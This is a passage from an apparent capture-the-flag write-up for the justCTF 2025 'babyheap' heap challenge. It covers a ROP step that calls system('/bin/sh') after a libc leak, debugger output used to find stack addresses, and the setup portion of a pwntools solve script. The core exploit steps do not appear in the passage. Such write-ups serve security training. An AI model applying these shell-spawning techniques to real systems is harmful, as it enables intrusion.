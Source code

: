 ```python
io.interactive()
```



[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>

## ROP

After we got libc leak, we could call `system("/bin/sh")` by overwriting `create_chunk`
saved rip and perform basic ROP. Stack address references in libc could be found
using `scan libc stack` in `gef`

```sh
gef> scan libc stack
[+] Searching for addresses in 'libc' that point to 'stack'
libc.so.6: 0x00007f415e004370 <program_invocation_short_name>  ->  0x00007fffda23090c  ->  0x7061656879626162 'babyheap.patched'
libc.so.6: 0x00007f415e004378 <program_invocation_name>  ->  0x00007fffda2308de  ->  0x73772f746f6f722f '/root/ws/ctf/justctf-2025/pwn/babyheap/babyheap.patched'
libc.so.6: 0x00007f415e0046e0  ->  0x00007fffda2303d8  ->  0x00007fffda2308de  ->  0x73772f746f6f722f '/root/ws/ctf/justctf-2025/pwn/babyheap/babyheap.patched'
```

## Final Solve Script

```python
#!/usr/bin/env python3

# ruff: noqa: F403, F405

from pwn import *
from pwnlib import gdb

elf = context.binary = ELF("./babyheap.patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
binary_path = elf.path
cwd = str(Path.cwd())


gdb.binary = lambda: "gef-bata24"


def start(argv=[], *a, **kw):
    nc = "nc baby-heap.nc.jctf.pro 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        args_ = [binary_path] + argv
        if args.NA:  # NOASLR
            args_ = ["setarch", "-R"] + args_
        if args.GDB:
            return gdb.debug(
                args=args_,
                env=env,
                gdbscript=gdbscript,
                api=True,
                # sysroot=cwd,
                sysroot=None,
            )
        return process(args_, env=env, *a, **kw)


```

[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>